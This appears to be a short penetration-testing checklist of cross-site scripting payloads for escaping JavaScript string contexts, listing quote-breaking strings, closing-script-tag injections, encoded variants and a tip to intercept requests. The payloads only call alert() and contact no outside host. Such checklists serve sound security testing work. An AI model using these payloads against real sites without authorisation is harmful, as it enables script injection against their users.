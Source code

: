 1. `' + alert(1) + '`
2. `\' + alert(1) + \'`
3. `</script><script>alert()</script>//`
4. `\'+%2b+alert(1)//` , `\'-alert(1)//`
5. Playing with url & html encoded `' " <> \`
6. Intercepting the request and try if the encoding is changing trough it, retry all above.